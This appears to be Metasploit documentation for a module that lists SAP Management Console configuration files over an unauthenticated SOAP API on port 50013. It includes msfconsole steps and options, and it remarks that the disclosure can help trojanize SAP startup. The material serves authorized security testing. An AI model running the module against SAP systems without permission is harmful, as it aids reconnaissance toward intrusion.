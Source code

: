 
## Vulnerable Application

This applies to all versions of SAP software.

The SAP Management Console (SAP MC) provides a common framework for centralized system management. It allows you to monitor and perform basic administration tasks on the SAP system centrally, which simplifies system administration. (https://help.sap.com/doc/saphelp_nwpi711/7.1.1/en-US/fa/ec218eb89b4424a9a0b423b0643952/frameset.htm)

SAP exposes an API on port tcp/50013 with the SOAP Management Console. Some webmethods are authenticated with a valid login/password and others are unauthenticated and reachable by default.

With this module you can list the config files that SAP loads when starts the SAP server. This unauthenticated information disclosure can be used in a more advanced attack to get knowledge about in which paths SAP stores the config files to, for example, retrieve sensitive data or trojanize the startup process.

## Verification Steps

  Example steps:

  1. Install the SAP application. SAP provides a docker container for development purposes: https://developers.sap.com/tutorials/hxe-ua-install-using-docker.html
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/sap/sap_mgmt_con_listconfigfiles```
  4. Set up the server IP: ```set RHOSTS 192.168.10.45```
  5. Do: ```run```
  6. You will receive the list of SAP configuration files on the server.

## Options

  **RHOSTS**: Set up which server or servers do you want to test

  **RPORT**: Port tcp/50013 set up by default

  In case of more advanced deployments you can set up the SSL parameters here:

  **SSL**: Set to ```true```


## Scenarios

### Example


  ```
msf > use auxiliary/scanner/sap/sap_mgmt_con_listconfigfiles
msf auxiliary(scanner/sap/sap_mgmt_con_listconfigfiles) > show options

Module options (auxiliary/scanner/sap/sap_mgmt_con_listconfigfiles):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    50013            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads
   URI      /                no        Path to the SAP Management Console 
   VHOST                     no        HTTP server virtual host

 msf auxiliary(scanner/sap/sap_mgmt_con_listconfigfiles) > set RHOSTS 192.168.10.45
 RHOSTS => 192.168.10.45
 msf auxiliary(scanner/sap/sap_mgmt_con_listconfigfiles) > run
 [...]

  ```
